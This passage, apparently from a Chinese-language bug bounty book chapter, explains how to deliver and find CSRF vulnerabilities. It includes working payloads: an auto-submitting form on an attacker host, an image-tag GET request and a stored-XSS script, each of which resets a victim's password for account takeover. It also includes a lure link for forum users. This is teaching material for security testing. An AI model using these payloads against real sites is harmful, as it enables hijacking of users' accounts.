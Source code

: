 此后，攻击者可以自由地以任何受影响的受害者身份登录，使用新分配的密码`this_account_is_now_mine`。

尽管我遇到的大多数 CSRF 都是低严重性问题，但有时关键端点上的 CSRF 可能导致严重后果。

## 交付 CSRF 载荷

在漏洞悬赏报告中，你经常需要向公司展示攻击者可以可靠地交付 CSRF 载荷。攻击者有哪些选项可以做到这一点呢？

交付 CSRF 载荷的第一个也是最简单的方式是通过诱使用户访问一个外部恶意网站。例如，假设 *example.com* 有一个用户经常访问的论坛。在这种情况下，攻击者可以在论坛上发布类似这样的链接，鼓励用户访问他们的页面：

访问此页面，获取你在 *example.com* 订阅的折扣： *https://example.attacker.com*

而在 *example.attacker.com* 上，攻击者可以托管一个自动提交的表单来执行 CSRF：

```
<html> <form method="POST" action="https://email.example.com/set_password" id="csrf-form"> <input type="text" name="new_password" value="this_account_is_now_mine"> <input type='submit' value="Submit"> </form> <script>document.getElementById("csrf-form").submit();</script>
</html>
```

对于可以通过 GET 请求执行的 CSRF，攻击者通常可以将请求作为图片直接嵌入——例如，作为发布到论坛的图片。这样，任何查看该论坛页面的用户都会受到影响：

```
<img src="https://email.example.com/set_password?new_password=this_account_is_now_mine">
```

最后，攻击者可以通过利用存储型 XSS 向大量受众交付 CSRF 载荷。如果论坛评论字段存在此漏洞，攻击者可以在其中提交一个存储型 XSS 载荷，使任何论坛访问者执行攻击者的恶意脚本。在恶意脚本中，攻击者可以包含发送 CSRF 载荷的代码：

```
<script> document.body.innerHTML += " <form method="POST" action="https://email.example.com/set_password" id="csrf-form"> <input type="text" name="new_password" value="this_account_is_now_mine"> <input type='submit' value="Submit"> </form>"; document.getElementById("csrf-form").submit();
</script>
```

这段 JavaScript 代码将我们的利用表单添加到用户的当前页面，并自动提交该表单。

使用这些交付方式，你可以向公司展示攻击者如何现实地攻击多个用户，并演示你 CSRF 漏洞的最大影响。如果你有 Burp Suite Pro，或者使用 ZAP 代理，你也可以利用它们的 CSRF POC 生成功能。有关更多信息，请在工具的文档中查找 *CSRF POC generation*。你也可以保留你自己编写的 POC 脚本，并在每次测试新目标时将目标网站的 URL 插入脚本中。

## 找到你的第一个 CSRF！

掌握了有关 CSRF 漏洞、绕过 CSRF 保护和提升 CSRF 漏洞的知识后，你现在已经准备好寻找你的第一个 CSRF 漏洞！加入一个漏洞悬赏计划，并按照本章中涵盖的步骤找到你的第一个 CSRF：

1.  找出应用程序中的状态更改操作，并记录它们的位置和功能。

1.  检查这些功能是否有 CSRF 保护。如果你没有发现任何保护，你可能已经找到了一个漏洞！

1.  如果存在任何 CSRF 保护机制，尝试通过使用本章中提到的保护绕过技术来绕过保护。

1.  通过制作一个恶意的 HTML 页面并访问该页面，确认漏洞是否存在，看看操作是否已执行。

1.  思考将载荷交付给最终用户的策略。

1.  草拟你的第一个 CSRF 报告！

